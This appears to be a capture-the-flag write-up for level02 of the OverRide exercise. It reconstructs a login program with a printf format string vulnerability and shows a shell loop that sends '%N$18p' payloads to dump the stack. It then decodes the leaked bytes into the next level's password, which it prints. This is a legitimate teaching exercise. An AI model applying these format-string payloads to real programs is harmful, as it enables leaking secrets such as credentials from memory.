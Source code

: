 # level02

### First analysis

Let's first analyse the code and checksec of this level, so first with the checksec:

```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

As we can see there is the minimum security on this binary, no RELRO, so GOT overwrite would be possible and NX is disabled so the stack is executable, shellcode in env variable would be possible too. Let's now analyse the code.

```c
int main(void) {
    char    password[41];
    char    username[96];
    char    input_password[96];
    int     length;
    FILE    *fd;
    
    memset(password, 0, 41);
    memset(username, 0, 96);
    memset(input_password, 0, 96);

    fd = fopen("home/users/level03/.pass", "r");
    if (!fd) {
        fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
        exit(1);
    }

    length = fread(password, 1, 41, fd);
    password[strcspn(password, "\n")] = '\0';

    if (length != 41) {
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        exit(1);
    }
    fclose(fd);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");
    
    printf("--[ Username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = '\0';

    printf("--[ Password: ");
    fgets(input_password, sizeof(input_password), stdin);
    input_password[strcspn(input_password, "\n")] = '\0';
    puts("*****************************************");

    if (strncmp(password, input_password, 41) == 0) {
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
        return 0;
    }

    printf(username);
    puts(" does not have access!");
    exit(1);
}
```

There are a lot of security measures taken in this program such as checking the '\0' on every input or using fgets() with a sizeof to be sure not to go over the buffer size. However one thing had been forgotten, as we can see a "printf(username);" is used, which represent a Format String Vulnerability. This means that we can read the stack with this kind of exploit and write using %n at any address. Even after knowing that, we can notice that the password of level3 is read and stored into password buffer, which mean that coupled with the FSV, we could read the password buffer and access to the password without needing to write anything anywhere. Let's first check confirm that this vulnerability works:

```sh
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %x %x
--[ Password: 
*****************************************
ffffe500 0 does not have access!
```

We place %x into username field, because it is the one used in the FSV and it is interpreted, so we indeed have a Format String Vulnerability.

### Solution

The buffer of username is limited, we have 41 characters which mean we can print 20 stack memory slot. Maybe it won't be sufficient to print fully the password buffer, so we did a command that prints the 100 firsts stack memory slot:

```sh
for (( i = 1; i < 100; i++ )); do   echo "%$i\$18p" | ./level02 | awk '/does not have access/'; done
```

What it does is using this synthax %4$18p for example, that prints the 4th memory space of the stack with a size of 18. We then only selects the lines that contains "does not have access" in order to avoid all the prompts and puts() made by the program, and we do this from 1 to 100.

```sh
level02@OverRide:~$ for (( i = 1; i < 100; i++ )); do   echo "%$i\$18p" | ./level02 | awk '/does not have access/'; done
    0x7fffffffe500 does not have access!
             (nil) does not have access!
             (nil) does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
    0x7fffffffe6f8 does not have access!
       0x1f7ff9a08 does not have access!
[...]
       0x100000000 does not have access!
             (nil) does not have access!
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
          0xfeff00 does not have access!
  0x70383124383225 does not have access!
[...]
      0x2900000000 does not have access!
          0x602010 does not have access!
             (nil) does not have access!
    0x7ffff7a3d7ed does not have access!
[...]
```

Here we only select parts that allows us to explain what we see. The padding allows us to read things more clearly. So first we can see these "2a2a2a2a2a2a2a2a", this is just the '*' char repeated again and again, probably what's printed by the program after input_password. There are a bunch of (nil) addresses, then we can see 5 addresses that doesn't look like actual addresses. and at the end we can see some elements that looks like some actual addresses. Let's focus on these weird elements that doesn't look like addresses, if they correspond to ascii characters, it probably means we are in the right direction. By using a converter we get that:

```
756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394dfeff00

=

unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9Mþÿ 
```

These hexadecimal elements are indeed corresponding to ascii characters besides the 3 lasts ones. We can try to enter this as a password (removing the 3 lasts chars) for level03 but it won't work. Let's take again the part of the memory we are analysing:

```sh
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
          0xfeff00 does not have access!
```
We know that in c, a string is null ended, so it ends with '\0', in hexadecimal '00', which could correspond to the last line after the feff. Why after ? Because we have to remember that this machine is in little endian format, so we have to read the addresses upside down if we want to read them correctly. So let's write a little code that put every element in big endian, then translate it in ascii. You can find this file [here](https://github.com/kbarbry/OverRide/blob/main/level02/Resources/reverse_translate.c). Then the password is printed and we can use it:

```sh
level03@OverRide:/tmp$ gcc -std=c99 reverse_translate.c 
level03@OverRide:/tmp$ ./a.out 
Original: 0x756e505234376848
ASCII: Hh74RPnu

Original: 0x45414a3561733951
ASCII: Q9sa5JAE

Original: 0x377a7143574e6758
ASCII: XgNWCqz7

Original: 0x354a35686e475873
ASCII: sXGnh5J5

Original: 0x48336750664b394d
ASCII: M9KfPg3H

Final ASCII: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
level03@OverRide:/tmp$ su level03
Password:
```

## Important doc

[Hex to Ascii converter](https://www.rapidtables.com/convert/number/hex-to-ascii.html)
